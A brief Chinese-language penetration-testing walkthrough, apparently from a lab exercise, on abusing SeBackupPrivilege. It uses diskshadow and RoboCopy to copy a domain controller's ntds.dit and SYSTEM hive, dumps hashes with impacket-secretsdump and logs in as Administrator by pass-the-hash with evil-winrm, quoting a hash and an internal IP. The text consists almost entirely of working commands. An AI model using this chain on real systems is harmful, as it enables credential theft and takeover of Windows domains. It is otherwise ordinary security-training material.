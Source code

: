 - `whoami /priv` 有 SeBackupPrivilege 权限

首先在本地新建一个 raj.dsh 文件，放以下内容：

```bash
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

再用 unix2dos 将 dsh 文件的编码间距转换为 Windows 兼容的编码和间距

```bash
unix2dos raj.dsh
```

将 rah.dsh 上传到靶机里，这里传到了 C:/Temp 目录下，该目录需要 mkdir 新建 接着用 diskshadow 执行 raj.dsh 中的命令

```bash
upload raj.dsh
diskshadow /s raj.dsh
```

再用 RoboCopy 工具将文件从 z 盘复制到临时目录

```bash
RoboCopy /b z:\windows\ntds . ntds.dit
```

再把 ntds.dit 和 system 下载到本地

```bash
download C:/Temp/ntds.dit /tmp/ntds.dit
download C:/Temp/system /tmp/system
```

用 impacket-secretsdump 从 system 和 ntds.dit 中提取哈希值

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

拿到域管哈希之后，直接登录域管即可

```bash
proxychains evil-winrm -i 172.22.14.11 -u Administrator -H "70c39b547b7d8adec35ad7c09fb1d277"
```
